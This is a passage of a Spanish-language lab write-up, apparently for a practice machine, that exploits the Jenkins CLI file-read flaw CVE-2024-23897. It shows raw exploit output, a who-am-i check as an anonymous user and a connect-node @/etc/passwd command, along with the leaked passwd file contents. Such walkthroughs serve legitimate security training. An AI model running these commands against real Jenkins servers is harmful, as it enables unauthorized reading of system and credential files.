 ~~~bash
b'\x00\x00\x00\x00\x83\x08www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin: No such agent "www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin" exists.\n\x00\x00\x00Y\x08root:x:0:0:root:/root:/bin/bash: No such agent "root:x:0:0:root:/root:/bin/bash" exists.\n\x00\x00\x00q\x08mail:x:8:8:mail:/var/mail:/usr/sbin/nologin: No such agent "mail:x:8:8:mail:/var/mail:/usr/sbin/nologin" exists.\n\x00\x00\x00\x83\x08backup:x:34:34:backup:/var/backups:/usr/sbin/nologin: No such agent "backup:x:34:34:backup:/var/backups:/usr/sbin/nologin" exists.\n\x00\x00\x00y\x08_apt:x:42:65534::/nonexistent:/usr/sbin/nologin: No such agent "_apt:x:42:65534::/nonexistent:/usr/sbin/nologin" exists.\n\x00\x00\x00\x8f\x08nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin: No such agent "nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin" exists.\n\x00\x00\x00s\x08lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin: No such agent "lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin" exists.\n\x00\x00\x00\x81\x08uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin: No such agent "uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin" exists.\n\x00\x00\x00c\x08bin:x:2:2:bin:/bin:/usr/sbin/nologin: No such agent "bin:x:2:2:bin:/bin:/usr/sbin/nologin" exists.\n\x00\x00\x00}\x08news:x:9:9:news:/var/spool/news:/usr/sbin/nologin: No such agent "news:x:9:9:news:/var/spool/news:/usr/sbin/nologin" exists.\n\x00\x00\x00o\x08proxy:x:13:13:proxy:/bin:/usr/sbin/nologin: No such agent "proxy:x:13:13:proxy:/bin:/usr/sbin/nologin" exists.\n\x00\x00\x00s\x08irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin: No such agent "irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin" exists.\n\x00\x00\x00\x95\x08list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin: No such agent "list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin" exists.\n\x00\x00\x00{\x08jenkins:x:1000:1000::/var/jenkins_home:/bin/bash: No such agent "jenkins:x:1000:1000::/var/jenkins_home:/bin/bash" exists.\n\x00\x00\x00y\x08games:x:5:60:games:/usr/games:/usr/sbin/nologin: No such agent "games:x:5:60:games:/usr/games:/usr/sbin/nologin" exists.\n\x00\x00\x00y\x08man:x:6:12:man:/var/cache/man:/usr/sbin/nologin: No such agent "man:x:6:12:man:/var/cache/man:/usr/sbin/nologin" exists.\n\x00\x00\x00y\x08daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin: No such agent "daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin" exists.\n\x00\x00\x00c\x08sys:x:3:3:sys:/dev:/usr/sbin/nologin: No such agent "sys:x:3:3:sys:/dev:/usr/sbin/nologin" exists.\n\x00\x00\x00_\x08sync:x:4:65534:sync:/bin:/bin/sync: No such agent "sync:x:4:65534:sync:/bin:/bin/sync" exists.\n\x00\x00\x00\x01\x08\n\x00\x00\x00Q\x08ERROR: Error occurred while performing this command, see previous stderr output.\n\x00\x00\x00\x04\x04\x00\x00\x00\x05'
~~~

- Preferí hacer todo un poco más a mano, ya que al parecer podemos operar directamente con el propio archivo de cliente de Jenkins y esto nos permitirá realizar más cosas.
- (Créditos al creador de este repositorio por la info: https://github.com/CKevens/CVE-2024-23897)

- Por ejemplo, podemos ver como que usuario operamos, introduciendo el comando `who-am-i` de la propia herramienta:

~~~bash
❯ java -jar jenkins-cli.jar -s http://10.10.11.10:8080 who-am-i
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Authenticated as: anonymous
Authorities:
  anonymous
~~~

- Habíamos visto que el exploit empleaba un comando llamado `connect-node` seguido de un caracter `@` y nuestro archivo.
- Podemos replicar esto mismo desde aquí:

~~~bash
❯ java -jar jenkins-cli.jar -s http://10.10.11.10:8080 connect-node @/etc/passwd
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin: No such agent "www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin" exists.
root:x:0:0:root:/root:/bin/bash: No such agent "root:x:0:0:root:/root:/bin/bash" exists.
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin: No such agent "mail:x:8:8:mail:/var/mail:/usr/sbin/nologin" exists.
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin: No such agent "backup:x:34:34:backup:/var/backups:/usr/sbin/nologin" exists.
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin: No such agent "_apt:x:42:65534::/nonexistent:/usr/sbin/nologin" exists.
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin: No such agent "nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin" exists.
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin: No such agent "lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin" exists.
~~~